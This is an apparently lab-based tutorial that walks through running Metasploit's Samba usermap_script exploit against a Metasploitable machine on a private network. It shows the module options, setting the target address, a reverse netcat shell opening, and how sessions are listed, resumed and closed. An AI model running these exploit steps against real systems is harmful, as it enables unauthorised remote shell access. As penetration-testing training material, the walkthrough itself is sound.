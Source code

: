 ## Using the show missing command, we can see what values we need to fill in to use the exploit:
```python
msf6 exploit(multi/samba/usermap_script) > show missing

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploi
                                      t.html


Payload options (cmd/unix/reverse_netcat):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------```
- Note - To show the module's advanced options, you can use the show advanced command.

## As expected, to run the exploit we need to specify the IP address of the target, so we will use the set command to specify the RHOST value, and use the exploit command to exploit the target:
```python
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 192.168.216.4
RHOSTS => 192.168.216.4
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 192.168.216.9:4444 
[*] Command shell session 1 opened (192.168.216.9:4444 -> 192.168.216.4:35973) at 2023-03-08 15:49:40 +0530

hostname
metasploitable```
- Upon successful execution of the exploit, we will be provided with shell connectivity with our target machine.
- To verify that we actually have access, we can type some Linux commands, such as the hostname command, to display the name of the machine, and to background the session we use Ctrl + Z.
## To manipulate sessions, we use the sessions command:
```python
msf exploit(usermap_script) > sessions -h
```

## To go back to the session, we use the sessions command followed by the -i option and the session ID; to abort the session we use Ctrl + C:
```python
msf6 exploit(multi/samba/usermap_script) > sessions -i 2
[*] Starting interaction with 2...

hostname
metasploitable
^C
Abort session 2? [y/N]  y

[*] 192.168.216.4 - Command shell session 2 closed.  Reason: User exit
```

